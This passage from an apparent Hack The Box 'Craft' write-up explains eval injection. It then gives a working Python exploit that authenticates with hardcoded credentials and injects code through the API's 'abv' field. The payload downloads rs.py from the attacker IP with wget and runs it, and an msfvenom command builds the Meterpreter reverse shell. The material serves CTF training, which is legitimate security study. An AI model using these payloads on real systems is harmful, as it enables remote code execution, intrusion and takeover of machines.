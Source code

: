     A quick note about `eval` is the function evaluates the parameter given. If you evaluate an untrusted or unsanitized input, you can execute commands on the victim's machine.

7. Armed with new knowledge, I fleshed out the rest of the code with remote code execution.

    ```python
    import requests
    import json

    response = requests.get('https://api.craft.htb/api/auth/login', auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
    json_response = json.loads(response.text)
    status = response.status_code
    token = json_response['token']

    print("\n" + str(token))
    print(str(status) + "\n")

    headerinfo = {'X-Craft-Api-Token': token, 'Content-Type': 'application/json'}
    response2 = requests.get('https://api.craft.htb/api/auth/check', headers=headerinfo, verify=False)
    json_response2 = json.loads(response2.text)

    print("\n" + str(json_response2))
    print(str(response2.status_code) + "\n")

    brew_dict = {}
    brew_dict['abv'] = "__import__(\"subprocess\").getoutput(\"wget http://10.10.14.13/rs.py\")"
    brew_dict['name'] = 'bullshit'
    brew_dict['brewer'] = 'bullshit'
    brew_dict['style'] = 'bullshit'

    json_data = json.dumps(brew_dict)

    response3 = requests.post('https://api.craft.htb/api/brew/', headers=headerinfo, data=json_data, verify=False)
    json_response3 = json.loads(response3.text)

    print("\n" + str(response3.status_code))
    print(json_response3)

    brew_dict2 = {}
    brew_dict2['abv'] = "__import__(\"subprocess\").getoutput(\"python rs.py\")"
    brew_dict2['name'] = 'bullshit'
    brew_dict2['brewer'] = 'bullshit'
    brew_dict2['style'] = 'bullshit'

    json_data2 = json.dumps(brew_dict2)

    response4 = requests.post('https://api.craft.htb/api/brew/', headers=headerinfo, data=json_data2, verify=False)
    json_response34= json.loads(response4.text)
    ```

    In addition, I need to generate the python reverse shell code.

    ```bash
    msfvenom -p python/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -o rs.py
    ```
